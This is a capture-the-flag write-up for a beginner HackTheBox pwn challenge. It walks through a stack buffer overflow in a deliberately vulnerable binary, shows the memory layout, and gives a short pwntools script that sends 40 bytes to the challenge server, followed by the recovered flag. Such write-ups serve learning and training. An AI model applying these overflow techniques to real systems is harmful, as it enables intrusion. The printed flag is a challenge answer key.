 ```yaml
---
title: "PWN - Getting Started"
publishedAt: 2023-03-21
description: "HacktheBox CTF - Cyber Apocalypse"
isPublish: true
---
```


```
Getting Started
Get ready for the last guided challenge and your first real exploit.
It's time to show your hacking skills.

Points: 300
Difficulty: Very Easy
```

In this challenge you are given a docker instance and also some files that you can download.
The archive consisted of 3 files (flag.txt, gs, wrapper.py) and a folder which had some linux shared objects for the binary to run.
Running the gs binary i was again welcomed by a wall of text.

```
➜  challenge ./gs

Stack frame layout

|      .      | <- Higher addresses
|      .      |
|_____________|
|             | <- 64 bytes
| Return addr |
|_____________|
|             | <- 56 bytes
|     RBP     |
|_____________|
|             | <- 48 bytes
|   target    |
|_____________|
|             | <- 40 bytes
|  alignment  |
|_____________|
|             | <- 32 bytes
|  Buffer[31] |
|_____________|
|      .      |
|      .      |
|_____________|
|             |
|  Buffer[0]  |
|_____________| <- Lower addresses


      [Addr]       |      [Value]
-------------------+-------------------
0x00007ffd0d8a47e0 | 0x0000000000000000 <- Start of buffer
0x00007ffd0d8a47e8 | 0x0000000000000000
0x00007ffd0d8a47f0 | 0x0000000000000000
0x00007ffd0d8a47f8 | 0x0000000000000000
0x00007ffd0d8a4800 | 0x6969696969696969 <- Dummy value for alignment
0x00007ffd0d8a4808 | 0x00000000deadbeef <- Target to change
0x00007ffd0d8a4810 | 0x000055c23668e800 <- Saved rbp
0x00007ffd0d8a4818 | 0x00007f2a4388ec87 <- Saved return address
0x00007ffd0d8a4820 | 0x0000000000000001
0x00007ffd0d8a4828 | 0x00007ffd0d8a48f8


After we insert 4 "A"s, (the hex representation of A is 0x41), the stack layout like this:


      [Addr]       |      [Value]
-------------------+-------------------
0x00007ffd0d8a47e0 | 0x0000000041414141 <- Start of buffer
0x00007ffd0d8a47e8 | 0x0000000000000000
0x00007ffd0d8a47f0 | 0x0000000000000000
0x00007ffd0d8a47f8 | 0x0000000000000000
0x00007ffd0d8a4800 | 0x6969696969696969 <- Dummy value for alignment
0x00007ffd0d8a4808 | 0x00000000deadbeef <- Target to change
0x00007ffd0d8a4810 | 0x000055c23668e800 <- Saved rbp
0x00007ffd0d8a4818 | 0x00007f2a4388ec87 <- Saved return address
0x00007ffd0d8a4820 | 0x0000000000000001
0x00007ffd0d8a4828 | 0x00007ffd0d8a48f8


After we insert 4 "B"s, (the hex representation of B is 0x42), the stack layout looks like this:


      [Addr]       |      [Value]
-------------------+-------------------
0x00007ffd0d8a47e0 | 0x4242424241414141 <- Start of buffer
0x00007ffd0d8a47e8 | 0x0000000000000000
0x00007ffd0d8a47f0 | 0x0000000000000000
0x00007ffd0d8a47f8 | 0x0000000000000000
0x00007ffd0d8a4800 | 0x6969696969696969 <- Dummy value for alignment
0x00007ffd0d8a4808 | 0x00000000deadbeef <- Target to change
0x00007ffd0d8a4810 | 0x000055c23668e800 <- Saved rbp
0x00007ffd0d8a4818 | 0x00007f2a4388ec87 <- Saved return address
0x00007ffd0d8a4820 | 0x0000000000000001
0x00007ffd0d8a4828 | 0x00007ffd0d8a48f8

◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉
◉                                                                                                 ◉
◉  Fill the 32-byte buffer, overwrite the alginment address and the "target's" 0xdeadbeef value.  ◉
◉                                                                                                 ◉
◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉

>>
```

In order to reach the flag you need to fill 32 + 8 = 40 bytes of data in to the buffer and overwrite the given target address which has '0xdeadbeef' as a value in it.
But running this attack locally only gives you the fake flag which was put there for testing purposes. In order to acquire the real flag you need to run the attack on the docker instance. So i modified the given 'wrapper.py' python script. Using pwntools i successfully acquired the flag after sending 40 bytes of data to the docker instance.

```python
#!/usr/bin/python3.8
from pwn import *

# connection info
IP   = '188.166.152.84'
PORT = 31791

# start remote connection
r = remote(IP, PORT)

# craft payload
payload = b'A' * 40

# wait until prompt
r.recvregex(b'>>')

# Send payload
r.sendline(payload)

# Read flag
success(f'Flag --> {r.recvline_contains(b"HTB").strip().decode()}')
```

![HTB](/images/htb/pwn/getting_started/flag.png)

```
Flag: HTB{b0f_s33m5_3z_r1ght?}
```
